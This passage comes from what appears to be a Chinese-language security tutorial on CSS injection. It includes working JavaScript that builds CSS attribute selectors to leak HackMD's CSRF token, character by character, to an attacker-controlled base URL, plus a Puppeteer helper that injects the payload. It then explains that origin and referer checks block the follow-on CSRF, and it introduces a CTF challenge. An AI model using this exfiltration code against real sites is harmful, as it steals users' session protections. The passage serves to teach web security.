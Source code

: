 ``` js
  })
}

async function updateCssPayload(page, payload) {
  await sleep(300)
  await page.click('.CodeMirror-line')
  await page.keyboard.down('Meta');
  await page.keyboard.press('A');
  await page.keyboard.up('Meta');
  await page.keyboard.press('Backspace');
  await sleep(300)
  await page.keyboard.sendCharacter(payload)
  console.log('Updated css payload, waiting for next request')
}

function generateCss(prefix = "") {
  const csrfTokenChars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ-_'.split('')
  return `
${prefix}
<style>
    head, meta {
        display: block;
    }
    ${
      csrfTokenChars.map(char => `
        meta[name="csrf-token"][content^="${prefix + char}"] {
            background: url(${baseUrl}${prefix + char})
        }
      `).join('\n')
    }
</style>
  `
}
```

可以直接用 Node.js 跑起來，跑起來以後在瀏覽器打開相對應的文件，就可以在 terminal 看到 leak 的進度。

不過呢，就算偷到了 HackMD 的 CSRF token，依然還是沒辦法 CSRF，因為 HackMD 有在 server 檢查其他的 HTTP request header 如 origin 或是 referer 等等，確保 request 來自合法的地方。

## CSS injection 與其他漏洞的組合技

在資安的世界中，創意跟想像力是很重要的，有時候幾個小的漏洞串起來，就能提升嚴重程度。而這次要分享的是一道 CTF 的題目，結合了 CSS injection 跟另外一個漏洞，我覺得滿有趣的。
